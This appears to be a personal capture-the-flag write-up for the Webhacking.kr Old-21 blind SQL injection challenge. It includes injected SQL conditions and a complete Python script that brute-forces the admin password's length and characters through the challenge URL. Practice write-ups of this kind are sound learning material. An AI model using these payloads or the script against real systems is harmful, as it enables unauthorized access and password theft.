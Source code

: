 ```yaml
---
layout: post
title: "[Webhacking.kr] Old-21 writeup"
categories: hacking writeup web
---
```


# Introduction
Link: https://webhacking.kr/challenge/bonus-1/

# 1st try
I know we can get some clues from the vulnerable app because it's vulnerable to Blind SQL Injection.
My first attempt was a guessing the username and password to see the output.
![Normal output](/assets/images/old-21/1.png)

And the output when injection happens

![Injected output](/assets/images/old-21/2.png)

# Getting the clue
Further tests confirmed that `admin` was the correct username. By trying the following SQL Query, we can brute force the length of the password

```sql
SELECT id, pw FROM table_name WHERE id='admin' and length(pw)=1 or '1'='1'
```
After a bit of research, I found the `SUBSTRING` function in SQL allowed us to brute force the password by comparing with every character in the printable characters.

```sql
SELECT id, pw FROM table_name WHERE id='admin' and SUBSTRING(pw, 1, 1)='a' or '1'='1'
```

I wrote a short script to automate the process:
```python
import requests, string

cookies = {
    'PHPSESSID': 'gvgm13av4uouf78ujrhlvn2qot',
}

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.8,vi;q=0.5,ja;q=0.3',
    # 'Accept-Encoding': 'gzip, deflate, br',
    'DNT': '1',
    'Connection': 'keep-alive',
    'Referer': 'https://webhacking.kr/challenge/bonus-1/index.php?id=admin%27+and+length%28pw%29+%3D+4+or+%271%27%3D%271&pw=a',
    # 'Cookie': 'PHPSESSID=gvgm13av4uouf78ujrhlvn2qot',
    'Upgrade-Insecure-Requests': '1',
    'Sec-Fetch-Dest': 'document',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-Site': 'same-origin',
    'Sec-Fetch-User': '?1',
}

def brute_pw_length():
    for i in range(100):
        print(f"trying {i}")
        payload = {
            'id': f"admin' and length(pw) = {i} or '1'='1",
            'pw': 'a',
        }

        response = requests.get('https://webhacking.kr/challenge/bonus-1/index.php', params=payload, cookies=cookies, headers=headers)
        if 'fail' not in response.text:
            print(f"{i} is the one")
            return i

def brute_pw(len):
    pw = ''
    for i in range(1, len+1):
        for c in string.printable:
            payload = {
                'id': f"admin' and substring(pw, {i}, 1) = '{c}' or '1'='1",
                'pw': 'a',
            }
            r = requests.get('https://webhacking.kr/challenge/bonus-1/index.php', params=payload, cookies=cookies, headers=headers)
            if 'fail' not in r.text:
                pw+= c
                print(f'password: {pw}')
                break

    print(f'password is: {pw}')

l = brute_pw_length()
brute_pw(l)
```

# Conclusion
A basic but useful challenge to help me getting more insights into Blind SQL Injection.